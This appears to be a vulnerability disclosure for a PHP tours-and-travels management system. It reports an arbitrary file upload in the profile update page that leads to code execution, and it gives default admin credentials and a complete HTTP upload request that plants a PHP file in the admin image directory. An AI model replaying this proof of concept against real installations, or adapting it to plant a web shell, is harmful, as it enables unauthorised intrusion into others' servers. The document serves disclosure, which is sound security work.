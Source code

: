 # Online Tours & Travels Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: Serendipity

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

Vulnerability url: ip/tour/user/user_operations/profile.php?id=1

Loophole location: Online Tours & Travels management system's user/update_profile.php file exists arbitrary file upload (RCE)

Request package for file upload:

```sql
POST /tour/user/user_operations/profile.php?id=1 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/tour/user/update_profile.php
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------8601869426933
Content-Length: 828

-----------------------------8601869426933
Content-Disposition: form-data; name="name"

hhhh
-----------------------------8601869426933
Content-Disposition: form-data; name="state_name"

Goa
-----------------------------8601869426933
Content-Disposition: form-data; name="mobile"

1888888888
-----------------------------8601869426933
Content-Disposition: form-data; name="address"

11111
-----------------------------8601869426933
Content-Disposition: form-data; name="img"; filename="hack2.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------8601869426933
Content-Disposition: form-data; name="old_img"

hack.php
-----------------------------8601869426933
Content-Disposition: form-data; name="update"


-----------------------------8601869426933--
```

The files will be uploaded to this directory \tour\admin\img

![image](https://user-images.githubusercontent.com/54017627/183008845-1427b0a2-210e-47ba-b11e-984ed34af8f7.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/183008900-90d629fe-c040-43c0-988e-ad9ff909acd9.png)
